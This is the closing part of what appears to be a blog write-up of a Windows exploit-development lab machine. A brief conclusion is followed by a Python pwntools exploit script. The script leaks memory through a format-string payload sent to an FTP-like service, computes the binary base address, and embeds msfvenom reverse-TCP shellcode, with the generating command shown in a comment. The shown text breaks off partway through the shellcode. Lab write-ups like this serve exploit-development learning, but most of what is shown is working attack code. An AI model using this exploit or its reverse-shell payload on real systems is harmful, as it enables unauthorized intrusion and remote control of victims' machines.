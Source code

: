 We are now SYSTEM!! And after some root-dance we can read the root.txt.

![](https://github.com/dplastico/dplastico.github.io/raw/main/_posts/img/2023-07-02-19-47-29.png)

# Conclusion

I really enjoyed the machine, and since I love exploit-dev this was absolute heaven for me. I recommend this machine to anyone interested in learning Windows exploit development or anyone who wants to have some good quality pwning-time. Thanks to __xct__ for the challenge. I'm waiting for rainbow3!

# Full Exploit code

This is the full exploit to get the user.

```python
#!/usr/bin/python3
from pwn import *

target = '10.10.73.242'

r = remote(target, 2121)

#offset = 0x408
#size = 0xfb0

payload = b"LST %p-%p-%p-%p-%p"
r.sendline(payload)


r.recvuntil(b"ERROR: Can not open Path: ")
leaks = r.recvline().strip().split(b"-")
log.info(f"leaking {leaks}")
for i in range(len(leaks)):
    leaks[i] = int(leaks[i].decode(), 16)
log.info(f"binary leak = {hex(leaks[2])}")

filesrv = leaks[2] - 0x14120

log.info(f"base address = {hex(filesrv)}")

### shellcode
#msfvenom -p windows/shell_reverse_tcp lhost=tun0 lport=1337 -b "\x00\x09\x0a\x0b\x0c\x0d\x20" -f python -v shellcode
shellcode =  b""
shellcode += b"\xbf\xa8\xf9\xb1\xa8\xd9\xe1\xd9\x74\x24\xf4"
shellcode += b"\x5a\x2b\xc9\xb1\x52\x31\x7a\x12\x83\xea\xfc"
shellcode += b"\x03\xd2\xf7\x53\x5d\xde\xe0\x16\x9e\x1e\xf1"
shellcode += b"\x76\x16\xfb\xc0\xb6\x4c\x88\x73\x07\x06\xdc"
shellcode += b"\x7f\xec\x4a\xf4\xf4\x80\x42\xfb\xbd\x2f\xb5"
shellcode += b"\x32\x3d\x03\x85\x55\xbd\x5e\xda\xb5\xfc\x90"
shellcode += b"\x2f\xb4\x39\xcc\xc2\xe4\x92\x9a\x71\x18\x96"
shellcode += b"\xd7\x49\x93\xe4\xf6\xc9\x40\xbc\xf9\xf8\xd7"
shellcode += b"\xb6\xa3\xda\xd6\x1b\xd8\x52\xc0\x78\xe5\x2d"
shellcode += b"\x7b\x4a\x91\xaf\xad\x82\x5a\x03\x90\x2a\xa9"
shellcode += b"\x5d\xd5\x8d\x52\x28\x2f\xee\xef\x2b\xf4\x8c"
shellcode += b"\x2b\xb9\xee\x37\xbf\x19\xca\xc6\x6c\xff\x99"
shellcode += b"\xc5\xd9\x8b\xc5\xc9\xdc\x58\x7e\xf5\x55\x5f"
shellcode += b"\x50\x7f\x2d\x44\x74\xdb\xf5\xe5\x2d\x81\x58"
```